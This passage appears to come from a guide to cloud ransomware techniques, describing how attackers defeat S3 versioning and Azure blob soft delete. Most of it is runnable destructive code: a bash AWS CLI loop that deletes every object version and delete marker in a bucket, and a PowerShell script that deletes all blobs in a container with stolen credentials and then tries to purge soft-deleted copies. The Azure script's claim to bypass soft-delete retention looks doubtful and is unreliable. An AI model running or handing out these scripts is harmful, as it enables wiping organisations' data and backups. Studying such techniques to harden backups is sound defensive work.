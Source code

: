 **S3 Versioning - Intended Protection:**

When enabled, S3 versioning preserves all versions of objects, preventing accidental deletion.

**Ransomware Workaround:**

```bash
# Attacker with s3:DeleteObjectVersion permission
# Deletes ALL versions of every object

aws s3api list-object-versions --bucket my-bucket --output json > versions.json

# Extract all version IDs
jq -r '.Versions[] | "\(.Key) \(.VersionId)"' versions.json | while read key version; do
  aws s3api delete-object --bucket my-bucket --key "$key" --version-id "$version"
done

# Also delete delete markers
jq -r '.DeleteMarkers[] | "\(.Key) \(.VersionId)"' versions.json | while read key version; do
  aws s3api delete-object --bucket my-bucket --key "$key" --version-id "$version"
done
```

**Result:** Versioning useless if attacker has `s3:DeleteObjectVersion`

### Attack Vector 3: Azure Blob Soft Delete Bypass

**Azure Soft Delete - Intended Protection:**

Soft delete retains deleted blobs for 7-365 days.

**Ransomware Workaround:**

```powershell
# Attacker with Storage Blob Data Contributor role

$storageAccount = "myaccount"
$container = "mycontainer"

# Get storage context (using stolen credentials)
$ctx = New-AzStorageContext -StorageAccountName $storageAccount

# List all blobs
$blobs = Get-AzStorageBlob -Container $container -Context $ctx

foreach ($blob in $blobs) {
    # Delete blob (goes to soft delete)
    Remove-AzStorageBlob -Blob $blob.Name -Container $container -Context $ctx -Force
}

# CRITICAL: Permanently delete from soft delete
$deletedBlobs = Get-AzStorageBlob -Container $container -Context $ctx -IncludeDeleted

foreach ($blob in $deletedBlobs | Where-Object {$_.IsDeleted -eq $true}) {
    # Permanent deletion (bypasses soft delete retention)
    Remove-AzStorageBlob -Blob $blob.Name -Container $container -Context $ctx -Force -DeleteSnapshot
}
```
